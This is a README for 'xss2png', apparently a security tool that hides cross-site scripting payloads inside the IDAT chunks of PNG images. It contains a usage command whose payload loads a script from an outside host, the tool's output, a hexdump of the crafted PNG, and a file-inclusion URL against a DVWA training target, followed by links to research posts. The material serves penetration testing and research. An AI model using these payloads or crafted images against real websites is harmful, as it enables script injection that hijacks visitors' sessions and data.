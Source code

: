 # xss2png
PNG IDAT chunks XSS payload generator

A simple tool to generate PNG images with XSS payloads stored in PNG IDAT chunks

### Usage

```
~/$ python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
               ____                    
 __  _____ ___|___ \ _ __  _ __   __ _ 
 \ \/ / __/ __| __) | '_ \| '_ \ / _` |
  >  <\__ \__ \/ __/| |_) | | | | (_| |
 /_/\_\___/___/_____| .__/|_| |_|\__, |
                    |_|          |___/
 PNG IDAT chunks XSS payload generator

[i] Using payload: <SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>

[i] Generating final PNG output
[!] PNG output saved as: xss.png
```
### Example

<img src="xss.png">

```
~/$ hexdump -c xss.png 
0000000 211   P   N   G  \r  \n 032  \n  \0  \0  \0  \r   I   H   D   R
0000010  \0  \0  \0      \0  \0  \0      \b 002  \0  \0  \0   � 030   �
0000020   �  \0  \0  \0   y   I   D   A   T   x 234   c   �   <   S   C
0000030   R   I   P   T       S   R   C   =   \   \   X   S   S   .   V
0000040   A   V   K   A   M   I   L   .   C   Z   >   <   /   S   C   R
0000050   I   P   T   >       �   �   � 031   �   �   �   =   s   3   �
0000060 025   �   K   � 217 017   _   s   �   �   �   �   �   �   ?   �
0000070 227   _   �   X   1   �   �  \t   �   �   ~   �   �   �   g   o
0000080   4   �   �   v   �   3   2   2 214 202   Q   0  \n   F   �   (
0000090 030 005   �   ` 024 214 202   Q   0  \n 206 034  \0  \0   4   �
00000a0   % 002 021   �   �   �  \0  \0  \0  \0   I   E   N   D   �   B
00000b0   ` 202                                                        
00000b2
````

`https://dvwa.capturetheflag.cz/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)
